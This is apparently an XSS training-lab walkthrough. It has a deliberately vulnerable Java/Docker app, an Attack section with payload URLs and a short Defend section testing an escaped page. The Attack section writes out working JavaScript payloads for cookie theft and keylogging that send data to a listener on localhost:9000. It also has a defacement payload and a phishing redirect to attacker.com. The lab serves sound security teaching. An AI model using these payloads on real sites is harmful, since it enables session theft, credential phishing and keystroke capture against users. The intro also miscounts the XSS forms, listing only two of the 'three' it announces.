





### Reflected XSS
---

## Introduction XSS

When looking at XSS (Cross-Site Scripting), there are three generally recognized forms of XSS:

1 . Reflected or Stored
2 . DOM Based XSS.

Cross-site scripting (or XSS) is a code vulnerability that occurs when an attacker “injects” a malicious script into an otherwise trusted website. The injected script gets downloaded and executed by the end user’s browser when the user interacts with the compromised website. Since the script came from a trusted website, it cannot be distinguished from a legitimate script.

## Owasp

https://owasp.org/www-community/attacks/xss/

#### **Lab Image : Java ReflectedXSS**

## Attack

* Step 1: Open browser and go to url

    ```
    http://localhost
    ```

    > **Note:** Replace `localhost` with your server url

* Step 2: Change to directory 

    ```
    cd /root/reflected-xss
    ```

* Step 3: Build the project

    ```
    docker run -it --rm --name my-maven-project -v "$(pwd)":/usr/src/mymaven -p 8080:8080  -w /usr/src/mymaven maven:3.3-jdk-8 mvn package
    ```

* Step 4: Now start the app

    ```
    docker-compose up -d
    ```

* Step 5: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/index.jsp
    ```

    > **Note:** Replace `localhost` with your server ip







* Step 6: Perform a normal activity

    ```
    http://localhost:8888/ReflectedXSS/index.jsp?name=MHN
    ```
    

* Step 7: Try these payloads to perform a XSS attack
    

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>alert(document.cookie)</script>
        ```            


    * To deface a website
      
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3Edocument.body.innerHTML%3D%22%3Ch1%3EYou%20have%20been%20hacked%3C%2Fh1%3E%3Cimg%20src%3D'https%3A%2F%2Fimages.fineartamerica.com%2Fimages%2Fartworkimages%2Fmediumlarge%2F2%2Fheath-ledger-joker-portrait-madura-venkatachalam.jpg'%2F%3E%22%3C%2Fscript%3E
        ```
            
        
    * To perform phishing
    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>window.location="http://attacker.com/gmail.html"</script>
        ```
    
    * To steal cookie
    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>var a=new XMLHttpRequest();a.open("GET","http://localhost:9000/?domain="+document.cookie);a.send();</script>
        -------------------------------------
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3Evar%20a%3Dnew%20XMLHttpRequest()%3Ba.open(%22GET%22%2C%22http%3A%2F%2Flocalhost%3A9000%2F%3Fdomain%3D%22%2Bdocument.cookie)%3Ba.send()%3B%3C%2Fscript%3E
        ```
        
    * To Perform keylogging
​    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3E%0Adocument.addEventListener(%22keyup%22%2C%20function(e)%7B%0A%09var%20x%20%3D%20new%20XMLHttpRequest()%3B%0A%09var%20url%20%3D%20%22http%3A%2F%2Flocalhost%3A9000%3F%22%2Be.key%0A%09x.open(%22GET%22%2Curl%20%2C%20true)%3B%0A%09x.send()%3B%0A%7D)%3B%0A%3C%2Fscript%3E
        ```
## Defend

* Step 0: Add Library to pom.xml and escape 









* Step 1: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/secure.jsp?name=MHN
    ```

    > **Note:** Replace `localhost` with your server ip

* Step 2: Try these payloads to perform various XSS attacks

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/secure.jsp?name=%3Cscript%3Ealert(document.cookie)%3C/script%3E
        ```
        

    This should encoded and should render as normal html


